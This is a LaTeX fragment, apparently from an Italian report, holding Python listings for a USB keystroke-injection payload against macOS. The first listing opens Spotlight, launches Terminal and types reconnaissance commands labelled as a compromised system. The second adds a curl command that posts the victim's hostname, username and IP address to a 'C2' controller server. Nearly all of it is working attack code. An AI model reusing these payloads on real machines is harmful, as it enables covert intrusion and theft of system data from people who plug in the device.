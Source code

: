 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=Python, caption=payload.py -- Script HID nativo]
def type_text(text):
    """Digita una stringa carattere per carattere"""
    for ch in text:
        if ch in CHAR_MAP:
            send_report(0x00, CHAR_MAP[ch])
        elif ch in SHIFT_MAP:
            send_report(0x02, SHIFT_MAP[ch])
        time.sleep(0.04)

def press_enter():
    send_report(0x00, KEY_ENTER)

# ============================================================
# PAYLOAD PRINCIPALE - Target: macOS
# ============================================================

# Attendi che il PC riconosca il dispositivo USB
time.sleep(3)

# 1. Apri Spotlight (CMD + SPACE)
press_combo(KEY_MOD_META, KEY_SPACE)
time.sleep(0.8)

# 2. Cerca e apri il Terminale
type_text("Terminal")
time.sleep(0.5)
press_enter()
time.sleep(1.5)

# 3. Esegui comandi di raccolta informazioni
commands = [
    'echo "=== SISTEMA COMPROMESSO ==="',
    'echo "=== HOSTNAME ===" && hostname',
    'echo "=== UTENTE ===" && whoami',
    'echo "=== INDIRIZZO IP ===" && ipconfig getifaddr en0',
    'echo "=== DATA ===" && date',
    'echo "=== FINE ==="',
]

for cmd in commands:
    type_text(cmd)
    press_enter()
    time.sleep(0.5)
\end{lstlisting}

\subsection{Payload con Esfiltrazione Dati via Rete}
Una versione avanzata del payload invia i risultati a un server remoto:

\begin{lstlisting}[language=Python, caption=Payload con invio dati via HTTP]
# Aggiunta al payload per inviare dati al server C2
# Da inserire dopo i comandi nel terminale della vittima

SERVER_IP = "192.168.1.100"  # IP del server controller
SERVER_PORT = 8080

exfil_cmd = (
    f'curl -X POST http://{SERVER_IP}:{SERVER_PORT}/collect '
    f'-d "$(hostname)-$(whoami)-$(ipconfig getifaddr en0)"'
)

type_text(exfil_cmd)
press_enter()
\end{lstlisting}

\newpage

\end{document}
